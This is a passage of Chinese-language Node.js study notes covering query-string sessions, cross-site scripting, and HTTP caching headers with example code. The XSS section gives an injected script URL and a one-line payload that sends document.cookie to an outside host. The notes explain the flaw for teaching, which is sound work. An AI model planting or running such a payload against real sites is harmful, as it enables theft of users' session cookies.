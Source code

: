 ```JavaScript
	return pairs.join('; ')
}
```

* 通过查询字符串来实现浏览器和服务器端数据的对应
	* 原理是检查请求的查询字符串, 如果没有值,会先生成新的带值的`URL`, 然后形成跳转, 让客户端重新发起请求

#### `XSS`漏铜: 全称是跨站脚本攻击,主要形成原因是用户的输入没有被转义,而被直接执行
* 比如这样的`url`
	* `http://a.com/pathname#<script src="http://b.com/c.js"></script>`
* 新加载的脚本可以是
	* `location.href = "http://c.com?"+document.cookie`

#### 缓存
* 几条缓存的规则
	* 添加`Expires`或`Cache-Control`到报文头中
	* 配置`ETags`
	* 让`Ajax`可缓存
* 大多数缓存只应用在`GET`请求中
	* 本地没有文件时,浏览器必然会请求服务器中的内容,并将这部分内容放在本地的某个缓存目录中. 再第二次请求时,它将对本地文件进行检查,如果不确定这份本地文件是否可以直接使用,他将会发起一个条件请求.(再请求报文中附带`If-Modified-Since`字段)
		* `If-Modified-Since: Sun, 03 Feb 2013 06:01:12 GMT`
		* 如果服务器没有新的版本,只需响应一个`304`状态码即可.否则发送更新的文件到客户端
![](%E6%B7%B1%E5%85%A5%E6%B5%85%E5%87%BA%60nodejs%60/1544436210540.jpg)

* 设置`Expires`: 在服务器端设置`Expires`可以告知浏览器要缓存文件内容

```JavaScript
const handle = function() {
    fs.readFile(filename, (err, file)=>{
        const expires = new Date()
        expires.setTime(expires.getTime() +10*365*24*60*60*1000)
        res.setHeader('Expires', expires.toUTCString())
        res.writeHead(200, 'ok')
        res.end(file)
    })
}
```

* 可以使用`Cache-Control`实现相同的功能.并且可以避免浏览器端与服务器端时间不同步带来的不一致性问题,只要进行类似倒计时的方式计算时间即可
	* 此外`Cache-Control`的值还能设置`public,private,no-cache,no-store`能够更精细地控制缓存的选项

```JavaScript
const handle = function(req, res) {
    fs.readFile(filename, (err,file)=>{
        res.setHeader('Cache-Control', 'max-age='+10*365*24*60*60*1000)
        res.writeHead(200, 'ok')
        res.end(file)
    })
}
```

#### 清除缓存
